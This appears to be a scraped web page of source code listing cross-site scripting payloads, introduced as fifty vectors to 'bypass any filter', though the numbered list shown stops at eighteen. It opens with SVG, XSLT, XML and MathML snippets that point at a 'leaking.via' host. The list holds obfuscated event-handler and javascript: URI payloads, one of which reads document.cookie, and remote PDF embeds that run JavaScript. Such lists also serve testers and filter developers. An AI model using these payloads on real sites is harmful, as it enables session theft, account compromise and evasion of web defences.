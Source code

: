 <svg version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <a xlink:href="https://leaking.via/svg-a-text/"><text transform="translate(0,20)">CLICKME</text></a>
</svg>


<?xml-stylesheet type="text/xsl" href="https://leaking.via/xslt-stylesheet" ?>


<xml src="https://leaking.via/xml-src" id="xml"></xml>
<div datasrc="#xml" datafld="$text" dataformatas="html"></div>


<math xlink:href="https://leaking.via/mathml-math">CLICKME</math>

<math><mi xlink:href="https://leaking.via/mathml-mi">CLICKME</mi></math>

50 awesome XSS vectors that I have tweeted (@soaj1664ashar) over time. Enjoy! Now you can bypass any filter with the help of these full baked vectors :-)

1) <a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>
 
2) <div onmouseover='alert&lpar;1&rpar;'>DIV</div>
 
3) <iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
 
4) <a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>
 
5) <embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf"> ​
 
6) <object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">​
 
7) <var onmouseover="prompt(1)">On Mouse Over</var>​
 
8) <a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
 
9) <img src="/" =_=" title="onerror='prompt(1)'">
 
10) <%
 
11) <script src="data:text/javascript,alert(1)"></script>
 
12) <iframe/src \/\/onload = prompt(1)
 
13) <iframe/onreadystatechange=alert(1)
 
14) <svg/onload=alert(1)
 
15) <input value=<><iframe/src=javascript:confirm(1)
 
16) <input type="text" value=``<div/onmouseover='alert(1)'>X</div>
 
17) http://www.<script>alert(1)</script .com
 
 
18) <iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>​
 